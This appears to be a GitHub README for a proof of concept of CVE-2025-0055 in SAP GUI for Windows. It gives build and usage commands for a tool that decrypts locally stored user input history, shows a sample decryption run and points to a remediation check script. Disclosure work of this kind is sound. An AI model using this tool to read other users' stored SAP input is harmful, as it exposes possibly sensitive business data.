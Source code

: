 # CVE-2025-0055 - [Information Disclosure vulnerability in SAP GUI for Windows]

- CVE ID: CVE-2025-0055
- CVSS Score: 6.0
- CVSS Vector: CVSS:3.1/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:N/A:N
- Product Name: [SAP GUI for Windows]
- Access Vector: [Local]
- Authentication Required: [No]
- Exploitability: [Medium]

## Description
SAP GUI for Windows stores user input on the client PC to improve usability. Under very specific circumstances an attacker with administrative privileges or access to the victim's user directory on the Operating System level would be able to read this data. Depending on the user input provided in transactions, the disclosed data could range from non-critical data to highly sensitive data, causing high impact on confidentiality of the application

## PoC / Details
### compile the source code
- Linux/macOS
```bash
x86_64-w64-mingw32-g++ sap_gui_history_decrypt.cpp -o decrypt_gui_history.exe -ladvapi32 -static
```
- Windows
```cmd
cl /EHsc sap_gui_history_decrypt.cpp /link advapi32.lib
```

### how to use
- Decryption
```cmd
./decrypt_gui_history.exe /d <hex input>
```

- Encryption
```cmd
./decrypt_gui_history.exe /e <string>
```

- Specify User to be used for decryption/encryption
```cmd
./decrypt_gui_history.exe /u <username>
```

- Example usage:
```
.\decrypt_gui_history.exe /d 05105c0e633fc5a3
[+] windows username: SECURITY
[+] transformed username: FSRKIAMS
[*] encryption key created successfully!
[+] decrypted data: CCCCCCCCPΦ╓ï
```
## Remediation
There is a SAP GUI Security check script (Powershell) available to check the security of SAP GUI for Windows.

### how to run
```powershell
.\sap_gui_security_check.ps1
```
![img.png](img.png)

## References
- https://nvd.nist.gov/vuln/detail/CVE-2025-0055
- https://me.sap.com/notes/3472837
